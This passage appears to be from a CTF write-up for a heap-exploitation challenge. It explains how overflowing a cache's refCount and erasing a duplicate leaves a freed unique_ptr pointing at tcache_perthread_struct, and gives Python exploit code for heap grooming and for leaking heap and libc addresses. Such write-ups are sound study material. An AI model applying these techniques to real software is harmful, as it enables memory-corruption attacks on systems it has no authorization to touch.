 ## Erasing a cache with overflowed `refCount`
When we erase a cache, it's `unique_ptr` will also be erased. This structure is also stored on the heap, and the important part is that the pointer that it is managing is stored as the second `QWORD` of the struct. The `unique_ptr` struct is small enough that it will be inserted into `tcache` when it's free, and in `libc 2.31`, when a `tcache` is free, it's second `QWORD` will contain a so-called `key`, which is the pointer to `tcache_perthread_struct` at the start of the heap. Therefore, when we `.get()` from this freed `unique_ptr`, we actually have access to the pointer to that start of the heap. It all happens when we `erase` a large cache whose `refCount` is overflowed, and then we can read/write in a very large range from it. So effectively, we can read and write anywhere on the heap from that point.

## Setup the heap
Again, like `cache_v1`, we setup the heap perfectly for our exploitation, then overflow and erase a large cache:
```python
# Create a victim caches
create("victim1", 0x100)
write("victim1", 0, 8, "A"*8)
create("victim2", 0x100)
write("victim2", 0, 8, "B"*8)

# Create a large cache to duplicate over and over
create("orig", 0x18000)
write("orig", 0, 8, "A"*8)

# Duplicate orig 256 times
for i in range(256):
    #print(i)
    duplicate("orig", "dup_{}".format(i))

# Erase dup_0, orig's unique_ptr will now point at tcache_perthread_struct (top of heap)
erase("dup_0")
```

Notice that I created the `victim` caches first, because it will make them closer to the top, we don't want them to be far after those duplicated caches. The targeted cache size is also set to be very large (`0x18000`). Also, I deleted `dup_0` instead of `orig`, because `orig` is the only one that we can safely read and write from (it's not flagged as a duplicate).

## Leak heap and libc
Simply read a `heap` and a `libc` pointer on the heap, we don't even need to free a large chunk this time because the targeted chunk is already a large one and will be inserted to `unsorted bin`.
```python
# Leak heap
read("orig", 0x11ea8, 8)
heap = u64(r.recv(8)) - 0x11ed0
log.info("heap: {}".format(hex(heap)))

# Leak libc
read("orig", 0x12238, 8)
l.address = u64(r.recv(8)) - 0x1ebbe0
log.info("libc: {}".format(hex(l.address)))
```
